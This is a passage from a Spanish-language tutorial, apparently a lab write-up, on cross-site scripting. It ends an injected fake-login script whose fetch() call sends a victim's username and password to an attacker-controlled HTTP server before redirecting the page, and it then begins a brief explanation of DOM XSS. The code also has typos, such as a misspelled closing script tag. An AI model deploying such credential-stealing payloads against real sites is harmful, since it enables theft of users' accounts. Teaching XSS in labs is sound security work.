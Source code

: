 ```bash
        const url = `http://192.168.6.5:8000/?name=${encodeURIComponent(nombre)}&password=${encodeURIComponent(password)}`;

        // Realiza la solicitud por el método GET
        fetch(url, {
            method: 'GET'
        })

        // Redirige a la URL
        window.location.href = "http://192.168.6.238:10007/gossip";
    });
</scipt>
```

Cuando el usuario envíe los datos de su sesión al falso panel de login, sin darse cuenta estará enviando esos datos a nuestro servidor HTTP.

![img](/assets/img/xss/xsss_18.png)

![img](/assets/img/xss/xsss_19.png)

### DOM XSS

A diferencia de los otros tipos de ataque de Cross-Site Scripting, en el `DOM XSS` la solicitud no es enviada al servidor, sino que es directamente interpretada por el navegador del usuario, aprovechando la interacción del código `JavaScript` con él (DOM) **D**ocument **O**bject **M**odule para inyeceta y ejecutar código no deseado en este.
